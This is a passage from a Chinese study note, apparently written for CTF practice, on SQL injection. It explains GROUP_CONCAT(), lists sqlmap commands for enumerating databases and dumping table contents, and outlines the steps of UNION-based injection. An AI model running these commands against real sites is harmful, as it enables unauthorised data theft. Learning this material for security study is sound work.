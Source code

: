 ### GROUP_CONCAT()

`GROUP_CONCAT()` 是一个聚合函数，它将多个字符串连接成一个单独的字符串

![image-20240902231147184](https://gitee.com/bx33661/image/raw/master/path/image-20240902231147184.png)

这里我利用`Navicat`做了一个小例子：

```sql
SELECT name, GROUP_CONCAT(course) AS courses
FROM students
GROUP BY name;
```





## 注入方式

### SQLmap使用

![image-20240902231551675](https://gitee.com/bx33661/image/raw/master/path/image-20240902231551675.png)

官网：https://sqlmap.org/

常用命令经过最近使用总结如下：

```bash
python sqlmap.py -u "https://xxx/?id=1" --dbs # 查询所有数据库
python sqlmap.py -u "https://xxx/?id=1" -D test --tables # 查询...数据库下所有表
python sqlmap.py -u "https://xxx/?id=1" -D test --schema # 查询..数据库下所有表结构
python sqlmap.py -u "https://xxx/?id=1" -D test -T f1ag_table --column # 查询..数据库中表的列
python sqlmap.py -u "https://xxx/?id=1" -D test -T f1ag_table --dump # 获取表的内容
python sqlmap.py -u "https://xxx/" --data "id=1" --dbs # 传输POST参数
python sqlmap.py -u "https://xxx/" --all # 获取所有信息
```

清除缓存：

> 每次使用都会以日志的方式记录储存在对应文件夹中

```bash
python sqlmap.py -u "https://xxx/" --purge
```



### 联合注入

6个基本流程：

1. 判断注入类型：字符型 or 整数型------ **目的就是要构造闭合**

1. 查列数
2. 确定字段位置
3. 查表名称
4. 查列名称
5. 获取目标数据
